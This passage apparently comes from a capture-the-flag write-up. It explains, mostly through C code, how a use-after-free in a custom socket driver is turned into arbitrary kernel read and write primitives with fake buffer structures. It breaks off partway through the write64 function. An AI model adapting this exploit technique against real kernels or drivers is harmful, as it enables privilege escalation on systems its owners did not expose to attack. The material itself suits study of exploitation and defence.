 The socket described by `uaf[1]` will have its contents overwritten, so 
we can use it for reading and writing. We just have to connect it to 
another socket first:

```c
    /* 
     * Now uaf[1] has a socket that points into uaf[0]'s in-flight data.
     * We can now make a client to connect to uaf0.
     */

    client[2] = open("/dev/r2socks2", O_RDONLY);
    sock_init(client[2], 0x80);
    int r = sock_connect(client[2], "uaf0");
    printf("[*] Connect to uaf0: %d", r);

    /* We also connect uaf[1] to server[1] so we can send/recv data through it */
    sock_connect(uaf[1], "socket1");
```

Now in order to do an arbitrary read we prepare a fake buffer and then do a 
receive through `uaf[1]`. For arbitrary write we do similarly but for a send 
instead:

```c

uint64_t read64(uint64_t addr) {

    /* Place a fake buffer into it */
    uint64_t sock_buf[4];
    sock_buf[0] = 0x10;     // size
    sock_buf[1] = addr;     // buffer
    sock_buf[2] = 0x0;      // read_index
    sock_buf[3] = 0x08;     // write_index = almost full
    int r = sock_send(client[2], sock_buf, sizeof(sock_buf));
    // printf("[*] Send to uaf[0]: %d\n", r);

    uint64_t leak;
    r = sock_recv(uaf[1], &leak, 8);

    /*
     * Now we need to reset the read/write indeces for uaf[0].
     * For that, first flush the data we have in it so far.
     */

    char buf[0x80];
    r = sock_recv(uaf[0], buf, sizeof(buf));
    // printf("[*] Flushed %d bytes off uaf[0] buffer\n" , r);

    /* Now place "write_buf" back to 0 */
    r = sock_send(client[2], buf, 0x80-r);
    // printf("[*] Pushed %d bytes to uaf[0] buffer\n" , r);

    /* Now get read_index back to zero too */
    r = sock_recv(uaf[0], buf, sizeof(buf));    
    // printf("[*] Flushed %d bytes off uaf[0] buffer\n" , r);


    return leak;
}

void write64(uint64_t addr, uint64_t value) {

    /* Place a fake buffer into it */
    uint64_t sock_buf[4];
    sock_buf[0] = 0x10;     // size
```